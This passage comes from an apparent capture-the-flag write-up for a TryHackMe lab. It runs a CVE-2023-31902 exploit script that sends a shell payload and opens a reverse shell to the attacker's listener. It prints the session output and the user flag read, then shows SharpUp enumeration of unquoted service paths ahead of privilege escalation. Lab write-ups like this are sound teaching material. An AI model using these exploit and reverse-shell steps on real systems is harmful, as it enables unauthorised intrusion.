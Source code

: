 ```console
```

Now that both our payload and listener are set, we can run the exploit.

```console
$ python3 CVE-2023-31902-v2.py --target 10.10.154.124 --lhost 10.11.72.22 --file shell.exe
Take The rose...
```

> The exploit script might not work on the first try, so if you don't get a shell after some time, try running it again.  
{: .prompt-tip }

After this, we get a shell as `purpletom` on our listener and can read the first flag at `C:\Users\purpletom\user.txt`.

```
[*] Command shell session 1 opened (10.11.72.22:443 -> 10.10.154.124:49863)


Shell Banner:
Microsoft Windows [Version 10.0.17763.1821]
-----


C:\Windows\system32>whoami
mousetrap\purpletom

C:\Windows\system32>type C:\Users\purpletom\user.txt
THM{[REDACTED]}
```

### Unquoted Service Path

Next, the room instructs us to use `SharpUp.exe` in `C:\Users\purpletom` to enumerate the machine for unquoted service paths.

```
C:\Windows\system32>C:\Users\purpletom\SharpUp.exe UnquotedServicePath

=== SharpUp: Running Privilege Escalation Checks ===

=== Services with Unquoted Paths ===
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program' is modifable.
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program Files' is modifable.
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program Files (x86)\Mobile Mouse\Mouse' is modifable.



[*] Completed Privesc Checks in 0 seconds
```
{: .wrap }
